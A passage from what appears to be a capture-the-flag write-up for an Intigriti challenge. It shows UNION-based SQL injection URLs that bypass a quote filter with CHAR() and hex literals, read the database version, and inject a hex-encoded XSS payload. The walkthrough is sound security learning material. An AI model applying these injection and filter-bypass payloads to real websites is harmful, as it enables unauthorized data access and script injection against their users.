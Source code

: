 ```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,'',3,4,5
error
```
The `''` seem to be the problem. In our mental model this still is valid syntax
which begs the question if the single `'` we initially used to quickly check
for SQLi was actually erroring because of bad syntax or some kind of filter.

Weirdly enough there is no error if the `'` is within a mysql comment

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1/*'*/,2,3,4,5
```

This tells us the filtering can't be a simple check for quotes in the get parameter.
Something else must be going on. But for now let's not get hung up on this. Let's work
around this little shock in our assumption. There sure have to be other ways
to create strings in mysql without quotes. OK google! "mysql string functions",
comes up with this.
```
CHAR() 	Return the character for each integer passed 
```

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,char(65,65,65),3,4,5
AAA
```
Great this works. 65 is the decimal for ASCII character A. By reading the mysql
manual we also come across the version function. We quickly check the database
version, just for fun.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,version(),3,4,5
8.0.29
```
Some more reading and we find another, shorter way than using the char() function
for encoding our payload. Simply by using the hexadecimal (0x) representation.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,0x414141,3,4,5
AAA
```

We use this online tool https://www.convertstring.com/EncodeDecode/HexEncode to convert your
XSS payload `<img/src/onerror=alert(1)>` to hex `0x3C696D672F7372632F6F6E6572726F723D616C6572742831293E`


```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,0x3C696D672F7372632F6F6E6572726F723D616C6572742831293E,3,4,5
```

And we see our payload! But wait, that's a problem. No popup. We see it which means
it did not get rendered into an actual image tag.
